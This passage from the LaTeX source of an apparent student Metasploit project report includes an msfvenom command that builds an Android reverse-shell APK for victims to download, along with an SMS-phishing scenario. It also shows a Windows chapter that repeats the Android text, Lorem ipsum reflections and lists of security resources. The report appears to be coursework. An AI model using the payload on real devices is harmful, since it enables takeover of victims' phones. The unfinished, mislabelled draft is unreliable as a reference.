exploit
\end{minted}
This aforementioned command begins the exploit and the \textit{Listener} will listen to any incoming responses from the victim. This is usually after the victim installs the malicious APK file and opens it. This is discussed further with the command listed below.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
]
{Shell}
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 R > /var/www/html/share/filename.apk
\end{minted}
A comprehensive list of commands for post-exploitation can be found in Metasploit's official documentation. These are shown below.\cite{comm}
\inputminted[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
]{Text}{commands.txt}

\section{Countermeasures}
\chapter{Scenario 2: Windows exploit}
\section{Overview}
The scenario is described as follows:
\begin{displayquote}
\textit{A person (that will be known as the victim in further discussions), opens a SMS received on their mobile device. This SMS has a malicious link embedded in it, or has a link that redirects to a malicious site. The link automatically downloads and runs an Android application package also known in other terms as an APK file. This APK file is what the Android Operating System uses to install applications. This malicious Application, once installed gives the Hacker (known as a perpetrator in an attack) full control over the device to outside parties, including the perpetrator. From here on out, the perpetrator has the victim in the palm of their hands, and can do what every they like to the device as well as carry out further attacks against the victim.}
\end{displayquote}
\section{Carrying out the exploit}
\section{Countermeasures}
\chapter{Closing remarks}
\section{Reflection}
Joshua Esterhuizen had the following to say:
\begin{displayquote}
Lorem ipsum
\end{displayquote}
Affaan Muhammad had the following to say:
\begin{displayquote}
Lorem ipsum
\end{displayquote}
\section{Work Consensus}
All members in the group contributed to this project and a 50/50 balance between work allocation was kept. Below is a table showing how the work was divided in this project amongst the 2 members i.e. Affaan \& Joshua
\begin{table}[H]
\centering
\begin{tabular}{@{}ll@{}}
\toprule
\multicolumn{1}{c}{Affaan}   & \multicolumn{1}{c}{Joshua}         \\ \midrule
Scenario 1     & Scenario 2             \\
Blog & Blog            \\
Testing                      & Testing                            \\
Bug fixes                    & Bug fixes                          \\
Proofreading                        & Proofreading                              \\
Documentation                & Metasploit Literature Review \\ \bottomrule
\end{tabular}
\end{table}
\chapter{Additional readings and miscellaneous information}
CitizenLab located in Toronto, Canada is responsible for actively testing new threats, and exploits. Their site is located at the following url:\\
\url{https://citizenlab.ca/}\\
You can find additional information and news of current events in the cyber security space.\\\\
Heimdal Security headquartered in Denmark are a company which creates different suites for your cyber security needs. They also offer interesting resources such as whitepapers, articles, blogs, data sheets, case studies etc. Their site is located at the following url:\\
\url{https://heimdalsecurity.com/}
Additionally, an extensive list of cyber security resources can be found at:\\
\url{https://www.cyberdegrees.org/resources/the-big-list/}\\
They include the following:
\section{News and Opinions}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://arstechnica.com/tag/security/}{Ars Technica – Risk Assessment}
\item \href{https://www.cio.com/category/security/}{CIO Security}
\item \href{https://www.csoonline.com/}{CSO Online}
\item \href{http://www.darkreading.com/}{Dark Reading}
\item \href{https://www.theguardian.com/media-network/information-security}{Guardian Information Security Hub}
\item \href{http://www.homelandsecuritynewswire.com/topics/cybersecurity}{Homeland Security News Wire – Cybersecurity}
\item \href{https://www.infosecurity-magazine.com/}{Infosecurity Magazine}
\item \href{https://nakedsecurity.sophos.com/}{Naked Security}
\item \href{https://www.scmagazine.com/}{SC Magazine}
\item \href{https://securelist.com/}{SecureList}
\item \href{http://securitywatch.pcmag.com/}{SecurityWatch}
\item \href{https://www.wired.com/category/threatlevel/}{Threat Level}
\item \href{https://threatpost.com/}{ThreatPost}
\end{itemize}
\end{multicols}
\section{Blogs}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://security.googleblog.com/}{Google Online Security Blog}
\item \href{https://resources.infosecinstitute.com/}{InfoSec Resources}
\item \href{https://krebsonsecurity.com/}{Krebs on Security}
\item \href{https://www.microsoft.com/security/blog/product/windows/}{Microsoft Malware Protection Center Blog}
\item \href{https://www.schneier.com/}{Schneier on Security}
\item \href{https://securityboulevard.com/feed/}{Security Bloggers Network}
\item \href{https://terebrate.blogspot.com/}{Terebrate}
\item \href{https://blog.threattrack.com/}{Threat Track Security Labs Blog}
\item \href{https://www.veracode.com/blog}{Veracode Blog}
\item \href{https://www.zdnet.com/blog/security/}{Zero Day Blog}
\end{itemize}
\end{multicols}
\section{Other useful websites}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://www.utrgv.edu/utpa\_main/daa\_home/coecs\_home/cstem}{UTPA Center of Excellence in STEM Education}
\item \href{https://www.cerias.purdue.edu/site/tools\_and\_resources/}{CERIAS: Tools and Resources}
\item \href{https://cve.mitre.org/index.html}{CVE: Common Vulnerabilities and Exposures}
\item \href{https://security.stackexchange.com/}{Information Security Stack Exchange}
\item \href{http://www.infotectraining.com/}{Infotec Pro}
\item \href{https://isc.sans.edu/}{ISC: Internet Storm Center}
\item \href{https://www.nsa.gov/resources/students-educators/centers-academic-excellence/}{National Centers of Academic Excellence (CAE) in Information Assurance (IA)/Cyber Defense (CD)}
\item \href{https://oval.mitre.org/}{OVAL: Open Vulnerability and Assessment Language}
\item \href{https://niccs.us-cert.gov/}{Scholarship Opportunities}
\item \href{https://www.us-cert.gov/}{US-CERT}
\item \href{https://www.dhs.gov/topic/cybersecurity}{U.S. Department of Homeland Security – Cybersecurity}
\end{itemize}
\end{multicols}
\section{Organisations}
\begin{multicols}{2}
\begin{itemize}
\item \href{http://www.sigsac.org/}{ACM SIGSAC: Special Interest Group on Security, Audit and Control}
\item \href{https://www.asisonline.org/}{ASIS International}
\item \href{https://cloudsecurityalliance.org/}{CSA: Cloud Security Alliance}
\item \href{https://www.dc3.mil/}{DC3: Defense Cyber Crime Center}
\item \href{https://htcia.org/}{HTCIA: High Technology Crime Investigation Association}
\item \href{https://www.securityforum.org/}{ISF: Information Security Forum}
\item \href{https://www.issa.org/default.aspx}{ISSA: Information Systems Security Association}
\item \href{https://niccs.us-cert.gov/}{NICCS: National Initiative for Cybersecurity Careers and Studies}
\item \href{https://www.nsi.org/}{NSI: National Security Institute}
\item \href{https://www.nw3c.org/}{NW3C: National White Collar Crime Center}
\item \href{https://www.owasp.org/index.php/Main_Page}{OWASP: Open Web Application Security Project}
\item \href{https://www.sans.org/}{SANS}
\item \href{https://cps-vo.org/group/SoS}{Science of Security Virtual Organization}
\end{itemize}
\end{multicols}
\section{Training}
\begin{multicols}{2}
\begin{itemize}
\item \href{http://www.dvwa.co.uk/}{Damn Vulnerable Web Application (DVWA)}
\item \href{https://www.evolvesecurity.io/academy/home}{Evolve Security Academy}
\item \href{https://www.hackthissite.org/}{HackThisSite (HTS)}
\item \href{https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide}{Metasploitable}
\item \href{https://www.irongeek.com/i.php?page=mutillidae/mutillidae-deliberately-vulnerable-php-owasp-top-10}{Mutillidae}
\item \href{http://overthewire.org/wargames/natas/}{NATAS}
\item \href{https://www.nibs.org/default.aspx}{National Institute of Building Sciences}
\item \href{https://secureset.com/}{SecureSet}
\item \href{https://www.slavehack2.com/}{SlaveHack}
\end{itemize}
\end{multicols}
\section{Security Groups}
\section{Contests and Competitions}
\section{Conferences}
\printbibliography[heading=bibintoc]
\end{document}